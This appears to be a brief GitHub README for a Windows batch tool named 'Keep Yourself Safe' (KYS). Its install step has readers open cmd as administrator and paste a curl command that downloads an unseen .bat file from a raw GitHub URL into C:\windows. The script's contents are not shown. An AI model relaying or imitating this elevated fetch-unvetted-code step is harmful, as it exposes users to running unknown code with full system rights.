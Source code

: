 <h1> Keep Yourself Safe </h1>

<h2> Screenshot </h2>
<img src="Screen.png"  width="500" height="600" alt="screen.png">

<h2> How to install </h2>
<p> You just need open cmd with admin perms, and paste next command</p>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```

<h3> Notice that files will stored in Windows packpage </h3>

<h2> Run </h2>
<p> After installing, you can run it with command KYS in cmd </p>
